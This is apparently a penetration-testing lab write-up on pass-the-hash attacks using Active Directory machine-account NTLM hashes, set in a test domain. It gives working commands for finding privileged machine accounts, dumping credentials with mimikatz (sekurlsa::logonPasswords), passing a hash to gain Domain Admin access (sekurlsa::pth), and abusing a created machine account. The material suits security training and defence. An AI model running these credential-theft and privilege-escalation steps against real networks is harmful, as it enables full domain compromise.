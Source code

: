 # Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of \(ideally administrators/domain administrators\).

This labs is based on an assumption that you have gained local administrator privileges on a workstation \(machine\), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:

{% code title="attacker@victim" %}
```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-03-19.png)

Of course, the same can be observed by simply checking the Domain Admins net group:

{% code title="attacker@victim" %}
```csharp
net group "domain admins" /domain
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-22-59.png)

or administrators group \(not applicable to our lab, but showing as a sidenote\):

{% code title="attacker@victim" %}
```csharp
net localgroup administrators /domain
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-24-07.png)

In AD, the highlighted part can be seen here:

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-36-17.png)

Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

{% code title="attacker@victim" %}
```csharp
sekurlsa::logonPasswords
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-29-17.png)

Let's check that our current compromised user `ws01\mantvydas` \(local admin on ws01\) cannot access the domain controller DC01 just yet:

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-47-10.png)

Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:

{% code title="attacker@victim" %}
```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-52-35.png)

Below shows how the machine's hash is passed which results in an elevated cmd.exe prompt. Using the elevated prompt enables us to access the domain controller as shown with `dir \\dc01\c$`:

![](../../.gitbook/assets/peek-2018-12-29-15-49.gif)

## Remember

It's worth re-emphasizing that computer/machine accounts are essentially the same as user accounts and can be as dangerous if misconfigured.

Let's create a new machine account with powermad like so:

```csharp
New-MachineAccount -MachineAccount testmachine
```

![](../../.gitbook/assets/image%20%28220%29.png)

Now, let's say someone added the testmachine$ account into Domain Admins:

```csharp
Get-NetGroupMember "domain admins" | select membern*
```

![](../../.gitbook/assets/image%20%28174%29.png)

...if we somehow get hold of the testmachine$ password, we can escalate to a DA. We can check this by opening a new console and logging in as testmachine$ with `/netonly` flag. Note how initially the user spotless cannot list files on the DC01, but once `runas /user:testmachine$ /netonly powershell` is run and the password is provided, DC01 is no longer complaining and allows spotless listing its file system:

![](../../.gitbook/assets/image%20%2892%29.png)

## References

{% embed url="https://blog.secarma.co.uk/labs/using-machine-account-passwords-during-an-engagement" %}

{% embed url="https://www.c0d3xpl0it.com/2018/05/machine-accounts-in-pentest-engagement.html?m=1" %}

